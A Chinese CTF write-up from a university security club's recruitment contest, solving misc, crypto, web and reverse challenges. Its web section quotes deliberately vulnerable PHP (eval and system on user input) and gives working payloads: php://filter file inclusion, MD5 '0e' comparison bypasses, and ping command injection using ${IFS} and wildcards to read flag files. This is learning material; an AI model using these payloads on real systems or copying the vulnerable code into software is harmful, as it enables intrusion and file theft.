








## 前言

上个月参加了某高校网络安全社团的招新题，记录一下部分题的解题过程。

> <mark>**很多题非原创，无法标明出处还请谅解**</mark>

## misc

### misc1


> 提示：flag在图片数据中

嗯，根据提示，使用`WinHEX`打开图片查看16进制元数据，发现flag：



`geek{unbelievable}`

### misc2


> 提示：这不只是个图片

`WinHEX`查看16进制，发现里面有zip的头尾：
````
ZIP
50 4B 03 04
50 4B 05 06
````

`binwalk`提取出压缩包，解压得到第二张图片，扫码得到flag：


`geek{Amazing}`

### misc3


> 提示：为啥图片不全呢？

根据提示，对图片进行长宽高修复，得到：


`geek{HAPPY}`

### misc4


16位编辑器查看，末尾发现有misc4.mp3字样，以及zip的头尾



使用`foremost`分离，得到带密码的压缩包---`APCHPR`爆破出zip文件密码：2024

解压得到`misc4.mp3`，一耳听出莫斯码，得出flag：

`geek{MORSEISGOOD}`

## crypto

### crypto1

````
密文：Z2Vla3tDb21lIG9uIX0=
提示：Base Base ~~
````

`base64`解密得出flag:

`geek{Come on!}`

### crypto2



猪圈密码解密得到：

`geek{welcometogeek}`

### crypto3

````
题目：
在一个阳光明媚的早晨，小兔子跳跳正在森林里玩耍。它一边跳跃，一边享受着清新的空气和美丽的景色。忽然，它在一棵大树下发现了一个奇怪的盒子，盒子的外观很古老，上面刻着复杂的花纹。

好奇的小兔子决定打开这个盒子。经过一番努力，盒子终于打开了，里面是一封信和一个看似重要的古老符号。信上写着：“这是一个通往秘密世界的钥匙，但你需要找到正确的密码才能进入。”

小兔子心里充满了探险的热情，开始寻找这个密码。它想到了朋友们，决定去问问聪明的小狐狸和勇敢的小熊。

小狐狸听了小兔子的故事，建议道：“或许这个密码就藏在我们平时的生活中。我们可以想象一下，什么事情对我们来说是最重要的。”

小熊则说：“我觉得应该是我们友情的象征，或者我们一起度过的快乐时光。”

小兔子灵机一动，突然想到了一个词：“冒险！”它相信这个词是打开新世界的钥匙。于是，它带着小狐狸和小熊再次回到那个神秘的盒子前，大声喊出了那个词。

然而，盒子却没有反应。小兔子感到有些失望，但它没有放弃，决定再观察一下那个古老的符号。它注意到符号中有一些像是数字和字母的组合。经过一番分析，小兔子想到了一个线索：“如果我们把这些符号想象成一种密码，那会不会是字母和数字的结合？”

经过一番讨论和尝试，它们最终拼出了一个神秘的字符串。小兔子觉得这个字符串有种特别的感觉，可能就是那个通往秘密世界的关键。

小兔子再次勇敢地对着盒子大声说出这个字符串。随着最后一个字母的发出，盒子发出了一声“咔嚓”声，缓缓打开了。里面闪烁着五彩斑斓的光芒，不同的奇幻生物纷纷出现，它们带来了无数的新奇和冒险。

小兔子、小狐狸和小熊兴奋地跳了起来，决定一起探索这个全新的世界。他们知道，只要团结在一起，任何谜题都能被解开，未来的冒险一定会更加精彩！

至于那条密文“U2FsdGVkX1/saBrBFn5W/3kLIuGaSpo1BS+F4PyHJSNglsQ=”，它仿佛是这个神秘世界的另一把钥匙，等待着他们去解锁更多未知的宝藏和故事。冒险才刚刚开始！
````

这道题一开始以为是base混合加密，因为一开始前半部分base64解码出了Salted_完整字符，尝试了好久都没解出来。之后看官方WP，才知道原来是`rabbit密码`；

`geek{you are great}`

### crypto4

````
小张把女儿出生日期的哈希值写在纸上，结果不小心将外卖洒在了上面，只能看到后10位是2b74d3e7a1，你能猜到他女儿的生日吗？哦!他女儿属兔哦。（提示：flag为密码的哈希值）
````

通过python程序暴力列举得到生日20231028

````python
import hashlib
import itertools
import hmac

#https://blog.csdn.net/mails2008/article/details/140398473

key = "2b74d3e7a1"
characters = "1234567890"
dir_list = itertools.product(characters, repeat=8)
for i in dir_list:
    res = hashlib.md5(''.join(i).encode()).hexdigest()
    if res[-10:] == key:
        print("birthday;" + str(i))
        print(str(res))

#output:
#birthday;('2', '0', '2', '3', '1', '0', '2', '8')
#2473ff35a9ae66a24b8995<mark>2b74d3e7a1</mark>
````



> 参考了 [csdn](https://blog.csdn.net/mails2008/article/details/140398473) 做了一些修改、

### crypto5

````
题目：三个小姐两个爹JM2VMRKVKYZUGSJVINMFKWSDJBEEMVSWJVGUGMSHIZBUMTKRKNEEWWSMI5DU2Q2YJZFEQRSBKZCEYTCFLJDEWVSCKFEEMSKGJFGUENI=
提示1：大老爷有一个女儿，二老爷有两个女儿
提示2：老爷留了12个金条，剩下16条都给了小姐
````

提取所有数字得到key`1221216`,base26-32-64-91混合解码得到`Z2Vla3todWFuPFUW4Z3ONF6Q====`,base64解码得到一半是乱码...得到了`geek{huan`

后来查看官方WP，原来是两部分。。。：

````
Z2Vla3todWFu
PFUW4Z3ONF6Q====
````

将第一个用base64解码得到geek{huan，第二个用base32解码得yingni}拼接后得到flag是`geek{huanyingni}`

> 只有大写字母和数字，像base32加密

学到了。。。

## web

### web1

注释找到`ZmxhZ+WcqC93ZWIvd2ViM59mbGFnL2ZsYWcudHh0`

base64解码得到

`flag在http://ip/web/web1/flag/flag.txt`



访问得到`geek{crazy}`

### web2

注释base64解码得到`你会用dirsearch吗？`

`dirsearch`扫描网站目录
````cmd
python.exe ./dirsearch.py -u http://ip/web/web2/
````

得到http://ip/web/web2/flag.php，访问得到flag:`geek{Excellent}`

### web3

````php
 <?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
````

利用PHP命令`eval()`可以执行系统命令：

`http://ip/web/web3/index.php?c=include$_GET["a"]?>&a=php://filter/read=convert.base64-encode/resource=flag.php`

得到`PD9waHANCiRmbGFnPsInZWVre3ByZXR0eWdvb2R9ljsNCj8+`

base64解码得到<?php$flag="`geek{prettygood}`";?

原理：

> preg_match()：执行一个正则表达式匹配,过滤掉`/flag|system|php|cat|sort|shell|\.| |\'|\|echo|\;|\(/`，为了使正则失效，在输入c后加上`>`来闭合PHP代码，再通过PHP伪协议获取flag的base64。

### web4



分析可得，需要传入一个值，该值的MD5的MD5还等于该值的MD5。。。

谷歌一下，找到相关知识点`0e漏洞`：

> PHP在处理哈希字符串时，会利用”!=”或”==”来对哈希值进行比较，它把每一个以”0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以”0E”开头的，那么PHP将会认为他们相同，都是0。from: [[md5 collision碰撞]即PHP对0e的缺陷漏洞](https://www.cnblogs.com/m-r-lee/p/13664402.html)

没找到。。。看官方WP找到值：`0e215962017`

传入`server.php?md5=0e215962017`

得到flag:`geek{wonderful}`

### web5

````php
<?php
// flag in flag.php
highlight_file(__FILE__);

if (isset($_GET['a']) && isset($_GET['b']) && isset($_POST['c']) && isset($_COOKIE['name'])) {
    $a = $_GET['a'];
    $b = $_GET['b'];
    $c = $_POST['c'];
    $name = $_COOKIE['name'];

    if ($a != $b && md5($a) == md5($b)) {
        if (!is_numeric($c) && $c != 1024 && intval($c) == 1024) {
            include($name.'.php');
        }
    }
}
?>
````

需要a不为b且他俩md5值一样，c是不为1024但取整后是1024，并且要通过cookie传入一个名字：

payload:`/?a=240610708&b=314826850   POST：c=1024.1a COOKIE=name=php://filter/read=convert.base64-encode/resource=flag.php`

`hackbar`拓展传入，得到base64密文`PD9waHAgIA0KJGZsYWcgPSAnZ2Vla3tZb3UgYXJlIGdyZWF0fSc7IA0KPz4=`

base64解码得到flag：`geek{You are great}`

### web6

查看源码找到`<!-- visit '/api.php?source' for hint -->`

````php
<?php

function sanitize($s) {
    $s = str_replace(';', '', $s);
    $s = str_replace(' ', '', $s);
    $s = str_replace('/', '', $s);
    $s = str_replace('flag', '', $s);
    return $s;
}

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}

if (!isset($_POST['ip'])) {
    die('No IP Address');
}

$ip = $_POST['ip'];

$ip = sanitize($ip);

if (!preg_match('/((\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(\d{1,2}|1\d\d|2[0-4]\d|25[0-5])/', $ip)) {
    die('Invalid IP Address');
}

system('ping -c 4 '.$ip. ' 2>&1');

?>
````
参考[0xGame 2023 - CSDN](https://blog.csdn.net/m0_74317362/article/details/133947590)

`; `⽤ `%0a` 绕过, 空格⽤ `${IFS}` 绕过, `/` 以及 `flag` ⽤ base64 编码绕过:

post`ip=127.0.0.1|ls%09..`发现`geek`目录;

post`ip=127.0.0.1|echo%09"PD9waHAgc3lzdGVtKCdscyAuLi9nZWVrJyk7"|base64%09-d%09>2.php`，执行无响应。。。

然后就解不出来了。。。查看WP:

``输入127.0.0.1&&cd${IFS}..&&cd${IFS}geek&&ls切换到geek目录中，发现flag.php``

> 因为过滤了flag，所以可以用`cat${IFS}fla*`来查看其中内容

通配符绕过过滤！学到了！

得到flag:`geek{hello geeker}`

## reverse

### reverse1

`IDA Pro`反编译在main函数中找到了flag{ajsju19hLDUkdrs8KB6Sl}



### reverse2

反编译查找胜利字符，找到 `KSLSHDDOWskldrfsKSJ`



`geek{KSLSHDDOWskldrfsKSJ}`

## 结尾

初知CTF，刚看到题就沉迷进去了，除了吃饭和睡觉满脑子都是题XDDD，有几道题还是上课摸鱼解出来的。最快乐的时候莫过于解出一道题，最痛苦的时候莫过于写WP（（（。